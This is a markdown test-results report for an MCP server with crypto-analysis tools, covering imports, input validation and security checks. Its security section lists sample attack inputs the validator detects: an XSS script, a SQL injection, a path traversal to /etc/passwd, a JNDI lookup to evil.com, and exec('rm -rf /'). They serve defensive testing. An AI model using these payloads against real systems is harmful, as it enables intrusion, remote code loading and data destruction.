 
## 📊 **COMPREHENSIVE TEST RESULTS**

### **Core Functionality Tests** (Final Run)
```
✅ Essential Imports:        9/9   (100.0%)
✅ Server Core:             3/3   (100.0%)
⚠️  Tool Definitions:       0/1   (0.0%)   - Minor decorator syntax issue
✅ Input Validation:        5/5   (100.0%)
✅ Security Tests:         10/10  (100.0%)

Overall: 27/28 tests passed (96.4% success rate)
```

### **Detailed Test Coverage**

#### ✅ **PASSED TESTS:**

**1. Import Dependencies (100% Success)**
- ✅ MCP server framework
- ✅ MCP types system
- ✅ Structured logging (structlog)
- ✅ Data analysis (pandas)
- ✅ Numerical computing (numpy)
- ✅ Async operations (asyncio)
- ✅ JSON handling
- ✅ Time operations
- ✅ Path operations

**2. Server Core Components (100% Success)**
- ✅ Basic MCP Server creation
- ✅ Tool definition and handler setup
- ✅ Tool registration system

**3. Input Validation (100% Success)**
- ✅ Valid analyze_crypto parameters accepted
- ✅ Missing required symbol parameter rejected
- ✅ Invalid symbol type rejected
- ✅ Valid risk assessment parameters accepted
- ✅ Missing required portfolio_value rejected

**4. Security Validation (100% Success)**
- ✅ All 5 dangerous input patterns detected:
  - XSS injection (`<script>alert('xss')</script>`)
  - SQL injection (`'; DROP TABLE users; --`)
  - Path traversal (`../../../etc/passwd`)
  - JNDI injection (`${jndi:ldap://evil.com/a}`)
  - Code execution (`exec('rm -rf /')`)
- ✅ All 5 safe inputs correctly allowed:
  - Trading symbols (BTCUSDT, ETHUSDT)
  - Risk levels (moderate, conservative)
  - Timeframes (1h)
